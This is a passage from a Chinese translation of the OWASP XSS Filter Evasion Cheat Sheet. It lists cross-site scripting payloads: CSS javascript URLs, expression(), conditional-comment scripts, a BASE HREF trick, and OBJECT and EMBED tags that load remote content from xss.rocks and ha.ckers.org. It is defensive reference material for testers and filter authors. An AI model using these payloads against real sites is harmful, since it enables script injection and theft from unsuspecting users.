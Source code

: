 Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Expression[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#div-expression)

这种变体对使用冒号和“表达式”之间的换行符的真实世界跨站点脚本过滤器有效：

```
<DIV STYLE="width: expression(alert('XSS'));">
```

### 下层隐藏块[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#downlevel-hidden-block)

仅适用于 IE5.0 及更高版本和 IE 渲染引擎模式下的 Netscape 8.1）。一些网站认为评论块中的任何内容都是安全的，因此不需要删除，这允许我们的跨站点脚本向量。或者系统可以在某物周围添加评论标签以试图使其无害。正如我们所看到的，这可能无法完成这项工作：

```
<!--[if gte IE 4]>
<SCRIPT>alert('XSS');</SCRIPT>
<![endif]-->
```

### 基础标签[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#base-tag)

在 IE 和 Netscape 8.1 中以安全模式工作。您需要`//`注释掉下一个字符，这样您就不会收到 JavaScript 错误，并且您的 XSS 标记将呈现。`images/image.jpg`此外，这依赖于网站使用动态放置的图像而不是完整路径的事实。如果路径包含一个前导正斜杠，例如`/images/image.jpg`您可以从此向量中删除一个斜杠（只要有两个开始注释，这将起作用）：

```
<BASE HREF="javascript:alert('XSS');//">
```

### 对象标签[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#object-tag)

如果它们允许对象，您还可以注入病毒负载以感染用户等，与 APPLET 标签相同）。链接文件实际上是一个 HTML 文件，其中可以包含您的 XSS：

```
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```

### 嵌入包含 XSS 的 Flash 电影[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#embed-a-flash-movie-that-contains-xss)

点击这里查看演示：~~http://ha.ckers.org/xss.swf~~

```
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```
